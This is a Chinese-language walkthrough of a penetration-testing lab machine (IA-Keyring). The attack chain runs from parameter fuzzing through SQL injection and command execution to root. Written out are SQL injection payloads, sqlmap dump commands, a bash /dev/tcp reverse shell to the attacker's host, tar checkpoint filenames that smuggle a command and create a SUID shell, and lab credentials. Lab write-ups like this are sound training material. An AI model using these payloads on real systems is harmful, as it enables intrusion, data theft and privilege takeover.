

# 前言

靶机：`IA-Keyring`，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

> 文章中涉及的靶场以及相关工具，在本公众号回复`IA03`即可获取

# 主机发现

因为是下载靶机到本地，所以是同一局域网，同一网段，同一网卡下，所以为求速度可以使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`

若想要模拟真实环境，可以使用`nmap`


# 信息收集

## 使用nmap扫描端口


## 网站信息探测

访问80端口网站，可以看到是登录和注册，查看页面源代码，当点击`login`时，会跳转到`login.php`处


这是`login.php`的界面


尝试注册一个用户`test`进行测试，注册成功会有弹窗，用户注册成功


若注册的用户已存在，会提示弹窗，用户已经被注册过


已注册成功的`test`登录，查看登录后有什么东西，查看页面源代码，这四个功能对应四个`php`文件


访问`control`时，出现一段话，感觉像是提示一样


使用`gobuster`爆破一下目录，发现大致一样


# 漏洞寻找

访问`history.php`，没有返回内容，不过经过测试，`history`是检验当前是否有用户处于登录状态的，也就是是否有用户是活跃状态的，这里当以`test`注册并登录后，再点击`logout`，这时候再去观察`history`，发现有内容了


那么这里肯定检测了，检测的方式呢，估计是`cookie`，毕竟之前我在未注册用户`test`的时候，访问这里是没有任何内容的，但是注册了`test`然后登录后，就有了这个信息。

在前面的时候，忘了放置一张图，这里再放置，这里我打字错了，是记录每一个活动


既然是记录了活动，那么假设这个`php`还可以查询具体用户的记录呢

不管如何，就假设这里是通过传参接收用户名进行的检测，也就是`http://192.168.10.10/history.php?FUZZ=test`，这个FUZZ就是可能存在的传参名，接收`test`用户名，以`burp`测试有无`cookie`时，这个信息的显示情况


可以确定，是检测`cookie`的，并且这个`cookie`是在用户登录状态时生效。

那么在进行`ffuf`测试的时候，可能就需要使用到`cookie`，这里`cookie`的获取可以直接从浏览器的开发者工具获取，或者这里的`burp`，再或者使用`curl`也是可以获取到`cookie`的

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.10/history.php?FUZZ=test -fs 0 -b "PHPSESSID=bp3ie1j20iek5bpjc3f3gibabs"
```


# 漏洞利用

获取参数`user`，那么测试会给出什么信息，指定`user=test`，发现这和登录时点击的功能点相似


再次指定已经注册过的用户进行测试，当然默认的`admin`都挺多的，并且前面的时候我测试过，在注册界面，若已注册会弹窗提示的。

指定`user=admin`，给出一个链接，估计可能是源码泄露了


## 信息泄露

访问地址，并访问其中的每个文件，发下每个文件都有数据库信息，这是作者怕忘了吗。

只有`control`这个，有`system()`函数，并且还注释到，这是不安全的函数


整理这里获取的信息，首先是数据库

| 用户名 | 密码                  | 数据库  |
| ------ | --------------------- | ------- |
| `root` | `sqluserrootpassw0r4` | `users` |

然后是接收的`get`参数`cmdcntr`

那么测试在`control.php`这个参数是否可行，但是测试发现以`test`用户无法触发，说明需要获取`admin`的密码

## sql注入

那么当前可利用的点只有`history`，这里知道参数的，而且根据前面信息给出的数据库，猜测可能存在`sql`注入，尝试以`'`闭合，发现信息没了，有可能

```shell
history.php?user=admin'
history.php?user=admin' or 1=1--+
```

最终对比，存在`sql`注入的


测试，还可以进行`union`查询，这里可以手工，也可以`sqlmap`，这里直接展示最终的手工注入命令

```shell
http://192.168.10.10/history.php?user=admin' union select concat(name,password) from details--+
```


然后再用`sqlmap`测试，存在`sql`注入，这里还是需要以登录状态的，所以`cookie`要加上

```shell
sqlmap -u "http://192.168.10.10/history.php?user=admin" --cookie="PHPSESSID=bp3ie1j20iek5bpjc3f3gibabs"
```


然后再把所有数据下载

```shell
sqlmap -u "http://192.168.10.10/history.php?user=admin" --cookie="PHPSESSID=bp3ie1j20iek5bpjc3f3gibabs" --dump
```



## 命令执行反弹shell

以`admin`和获取的密码直接登录，然后去测试`crontal.php`界面

```shell
http://192.168.10.10/control.php?cmdcntr=id
```


命令执行了，那么就构造一个反弹`shell`，需要先在`kali`中使用`nc`开启监听9999端口


```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
#经过URL编码处理一下
/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.10.2/9999+0>%261'
```


使用前面从数据库中查询到的`john`的密码`Sup3r$S3cr3t$PasSW0RD`进行测试，发现可以登录，一码多用啊


查看`john`家目录下的`flag`


使用`find`寻找具有SUID权限文件，发现当前目录下就有一个


```shell
find / -perm -4000 -print 2>/dev/null
```


# tar  文件名提权

发现文件为可执行文件，并且是相当于`tar`命令


还是下载这个文件到`kali`中，然后分析


把当前目录下的所有文件，压缩至`archive.tar`

那么根据这个尝试构造文件名，使得在进行压缩的时候，进行一个连接匹配，导致语句的执行

一般`tar`的suid提权大概是下面这样


```shell
/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

主要构造后面两个即可，当然如果是执行语句，构造很长也是可行的，毕竟是以`suid`权限执行。不过最好是复制`/bin/bash`到`tmp`，并给予`suid`权限，这可是一个可维持长时间的

构造语句

```shell
#都是在同一目录下，也就是可执行文件compress同级目录
echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```


执行`compress`，可以发现在`/tmp`下已经有了一个suid权限的`bash`


切换到`/tmp`目录下，然后执行当前目录下的`bash`，即可获取`root`权限


# 总结

该靶场考察以下几点：

1. 对于登录时的一些逻辑，比如这里的`history`就是通过`cookie`进行检验，所以在遇到可注册的界面时，都要去测试，最好是抓包测试
2. 参数污染，根据逻辑去模糊测试
3. 信息泄露，在`github`上找到源码
4. sql注入，考察登录后的sql注入，并且是字符型
5. 一码多用的情况
6. `tar`的SUID提权 ，主要就是`*`这个危险，导致把文件名变为可提权的命令


